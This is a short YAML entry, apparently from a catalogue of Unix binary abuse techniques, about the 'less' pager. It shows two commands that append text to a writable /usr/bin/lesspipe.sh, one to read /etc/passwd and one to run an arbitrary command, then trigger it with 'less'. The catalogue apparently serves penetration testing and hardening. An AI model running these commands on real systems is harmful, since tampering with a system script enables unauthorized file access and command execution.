 ```yaml
---
functions:
  file-read:
    - description: |
        This can read files by modifying the system lesspipe script if writable.
      code: |
        echo 'cat /etc/passwd' >> /usr/bin/lesspipe.sh
        less anyfile
  
  command:
    - description: |
        This executes commands if the lesspipe script is writable.
      code: |
        echo 'COMMAND' >> /usr/bin/lesspipe.sh
        less anyfile
---
```


